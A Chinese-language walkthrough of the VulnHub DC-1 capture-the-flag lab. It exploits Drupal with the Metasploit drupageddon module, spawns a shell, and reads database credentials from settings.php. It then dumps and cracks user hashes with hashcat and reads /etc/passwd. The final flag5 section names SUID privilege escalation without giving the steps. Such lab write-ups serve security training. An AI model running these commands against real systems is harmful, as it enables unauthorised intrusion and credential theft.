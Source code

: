 # DC 1

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

## 信息收集

1.IP探测
```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```
![image](./img/vulnhub-dc1-1.png)

2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```

![image](./img/vulnhub-dc1-2.png)

可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```

![image](./img/vulnhub-dc1-3.png)

利用成功弹回meterpreter会话,然后cmd shell下
```
shell
```

![image](./img/vulnhub-dc1-4.png)


getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt
```bash
find / -name flag*
cat flag1.txt
```

![image](./img/vulnhub-dc1-5.png)
![image](./img/vulnhub-dc1-6.png)

提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```

![image](./img/vulnhub-dc1-7.png)

可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```

![image](./img/vulnhub-dc1-8.png)

尝试读取users表

```
select * from users;
select name,pass from users;
```


![image](./img/vulnhub-dc1-9.png)


接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目
- https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password
```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。

![image](./img/vulnhub-dc1-10.png)

可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3

![image](./img/vulnhub-dc1-11.png)

翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```

![image](./img/vulnhub-dc1-12.png)

发现flag4用户，读取
```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```
提示需要提权

### 0x05-flag5

考点：find的suid提权



## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna
- 『VulnHub系列』DC_%201-Walkthrough.pdf